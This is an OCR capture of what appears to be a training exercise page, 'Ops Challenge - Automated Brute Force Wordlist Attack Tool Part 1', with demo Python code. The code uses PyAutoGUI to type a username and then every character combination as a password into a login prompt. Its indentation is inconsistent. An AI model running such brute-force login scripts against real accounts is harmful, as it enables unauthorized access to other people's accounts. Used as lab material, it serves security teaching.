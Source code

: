 # Ops Challenge - Automated Brute Force Wordlist Attack Tool Part 1 of 3

## Demo Code

The demo code below introduces concepts necessary to complete the challenge.

This example code uses PyAutoGUI to cycle through the alphabet.

```python

import itertools
import time
import pyautogui

Alphabet = ("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890-_.")
CharLength = 1
username = "youremail@domain.com"

for Index in range(25):
    passwords = (itertools.product(Alphabet, repeat = Index))
	for i in passwords:
        i = str(i)
        i = i.replace("[", "")
        i = i.replace("]", "")
        i = i.replace("'", "")
        i = i.replace(" ", "")
        i = i.replace(",", "")
        i = i.replace("(", "")
        i = i.replace(")", "")
        pyautogui.typewrite(username)
        pyautogui.keyDown("enter")
        pyautogui.keyUp("enter")
        pyautogui.typewrite(i)
        pyautogui.keyDown("enter")
        pyautogui.keyUp("enter")
    Index += 1

```
"DEMO.md" 45L, 1015C                                                                                                                                                 1,1           Top


